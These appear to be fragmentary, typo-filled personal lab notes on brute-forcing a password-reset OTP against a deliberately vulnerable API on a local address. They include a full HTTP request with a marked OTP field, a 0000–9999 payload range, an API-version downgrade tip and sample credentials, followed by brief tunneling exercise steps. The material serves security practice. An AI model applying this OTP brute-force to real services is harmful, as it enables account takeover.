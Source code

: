 
### burit force 

- go forget password 
- send to interduer 
- v3 -v2
- use aother email 
xenafo3920@jazipo.com
Admin@123

- input file 

```bash
POST /identity/api/auth/v2/check-otp HTTP/1.1
Host: 192.168.0.105:8888
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.0.105:8888/forgot-password
Content-Type: application/json
Content-Length: 69
Origin: http://192.168.0.105:8888
Connection: keep-alive
Priority: u=0

{"email":"james@example.com","otp":"§3452§","password":"Admin@123"} 
```
• Sequential • Random
0000
9999
Min integer digits: k
4
Max integer digits:
4


do agin money increase  
### References

- to learn  
- how  host website without saving in local /etc/host 
- change port to different 80->  
- https://jwt.io/



# 17/05/25
Tunneling


Start Meta2 and Two Windows
From One Windows Connect to Meta2 via tp and transfer some files
confirm its working.
After you confirm its working, block tp port in windows firewall outbound.
now if you try to connect, you should not be able to connect.
htthost
httport
targeted.org
